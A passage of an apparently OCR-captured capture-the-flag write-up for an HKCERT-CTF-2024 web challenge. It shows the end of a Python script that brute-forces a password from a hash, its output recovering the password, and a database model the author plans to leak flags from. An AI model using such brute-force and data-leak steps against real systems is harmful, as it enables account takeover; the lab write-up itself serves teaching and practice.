 ```python
        return password

def main():
    bruteForcePassword('4dd34ac9.e0c9e1bbd6c30c96dd3b6d55ecba839c67afdc424b1fec20336db000230cc447')

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Mystiz's-Mini-CTF-(1))-[2024.11.17|16:28:50(HKT)]
└> python3 solve.py       
[*] Trying password: 520d71
[+] Found correct password: 520d71
```

Nice! Let's login as `player` with that password!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117163311.png)

After that, we can use the same logic to leak the submitted flag in the `Attempt` model:

```python
class Attempt(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    challenge_id = db.Column(db.ForeignKey('challenge.id'), nullable=False)
    user_id = db.Column(db.ForeignKey('user.id'), nullable=False)
    flag = db.Column(db.String, nullable=False)
    is_correct = db.Column(db.Boolean, nullable=False)
    submitted_at = db.Column(db.DateTime, nullable=False)
```
